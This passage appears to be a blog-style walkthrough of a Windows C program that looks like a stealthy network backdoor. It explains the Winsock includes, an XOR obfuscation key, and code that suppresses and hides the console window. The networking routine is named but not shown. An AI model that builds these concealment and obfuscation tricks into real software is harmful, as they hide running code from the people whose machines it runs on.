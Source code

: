 ### Code Review

First things first, the includes:
- `winsock2.h` is needed for all the things related to sockets.
- `windows.h` gives us access to the Windows API.
- `stdio.h` for basic input/output, I mostly used it while debugging in the beginning, and honestly, it's probably optional at this point.

```c
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
```

We define two global variables and a linker directive:
- We specify `ws2_32.lib` for include the *Winsock library*, which is used for all the networking stuff.
- Global variables
	- `K0` is the XOR key
	- `BUFFER_SIZE` defines the maximum number of bytes to read in each loop

```c
#pragma comment(lib, "ws2_32.lib")

#define K0 0xAA // xor
#define BUFFER_SIZE 4096
```

#### `main()`: Entry point

The next one is the `main` function. 

We call a pre-defined function `FreeConsole()` to disable the console window — this is mostly used to keep things quiet and not show any terminal when the program runs.

The other functions (`notWindowAllowed`and `firstConnection()`) will be explained later on.

```c
int main() {
    FreeConsole();
    notWindowAllowed();
    firstConnection();
    return 0;
}
```

#### `notWindowAllowed()`: Hide the console window

This code is a simple trick to keep the console window hidden during execution.

By using the function `GetConsoleWindow()`, we obtain the handle of the window console, and then we hide it using `showWindow()` with the `SW_HIDE` flag.

```c
HWND hwnd = GetConsoleWindow();
ShowWindow(hwnd, SW_HIDE);
```
